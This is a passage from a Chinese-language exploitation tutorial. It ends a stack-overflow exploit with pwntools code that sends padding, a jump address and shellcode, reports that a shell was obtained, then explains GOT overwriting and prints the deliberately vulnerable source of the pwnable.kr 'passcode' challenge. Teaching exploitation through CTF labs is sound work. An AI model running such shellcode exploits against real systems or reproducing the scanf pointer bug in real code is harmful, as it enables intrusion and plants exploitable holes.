 ```
shellcode += "\x44\xfd\xe2\x91\x33\xa3\x05\xf8\x44"

io.write(pad + jmpAddr + shellcode)

io.interact()

```

`python pwn1.py`运行即可看到

已拿到shell

![enter image description here](http://drops.javaweb.org/uploads/images/5ef3f9661008e9370fc3f85bc81ade01503585b2.jpg)

**_2.2 GOT覆写_**

2.2.1 使用范围

刚才我们是通过栈溢出漏洞攻击函数的返回地址,但是现在对于栈溢出,已经有很多保护,例如canary(与windows下的GS技术类似).同时现在更常见的是指针覆盖漏洞,在这种情况下我们拥有一次修改任意内存的机会,在这时我们采用的往往就是GOT覆写技术.

2.2.2 原理

GOT是全局偏移表,类似于windows中PE结构的IAT,只不过windows中IAT中的函数地址是写保护的,没办法利用,但是GOT是可写的,我们可以将其中的函数地址覆盖为我们的shellcode地址,在程序后面调用这个函数时就会调用我们的shellcode了

2.2.3 实践

在这儿我用的实验程序来自panable.kr中的passcode,比较简单,源码如下

```
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
        scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
        exit(0);
        }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

```